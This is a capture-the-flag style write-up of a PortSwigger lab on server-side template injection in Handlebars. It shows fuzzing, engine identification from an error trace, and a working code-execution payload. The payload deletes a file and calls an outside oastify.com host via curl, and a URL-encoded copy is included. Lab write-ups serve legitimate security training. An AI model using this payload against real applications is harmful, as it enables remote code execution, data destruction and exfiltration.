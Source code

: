 # [Lab: Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

## Lab

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## Analysis

When I clicked the view details button of the first product, I noticed that the url was quite strange:

![analysis.png](./../img/lab-1-analysis.png)

## Detect

Using burp's intruder:

- positions: `GET /?message=§abcd§ HTTP/1.1`
- payloads: fuzzing template injection
- result:
![fuzzing.png](./../img/lab-4-fuzzing.png)

every request causes 500 error responses containing `{{}}`:

```text
<p class=is-warning>/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
            throw new Error(str);
            ^

Error: Parse error on line 1:
{{77*77}}
--^
Expecting &apos;ID&apos;, &apos;STRING&apos;, &apos;NUMBER&apos;, &apos;BOOLEAN&apos;, &apos;UNDEFINED&apos;, &apos;NULL&apos;, &apos;DATA&apos;, got &apos;INVALID&apos;
    at Parser.parseError (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)
    at compileInput (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)
    at ret (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)
    at [eval]:5:13
    at Script.runInThisContext (node:vm:129:12)
    at Object.runInThisContext (node:vm:313:38)
    at node:internal/process/execution:79:19
    at [eval]-wrapper:6:22

Node.js v18.12.1</p>
```

=> handlebars engine of nodejs

## handlebars payloads

<https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs>

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('curl http://96dqv77vsq70wc2n56jjmqprvi19p7dw.oastify.com -d `rm home/carlos/morale.txt`');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

=> solved
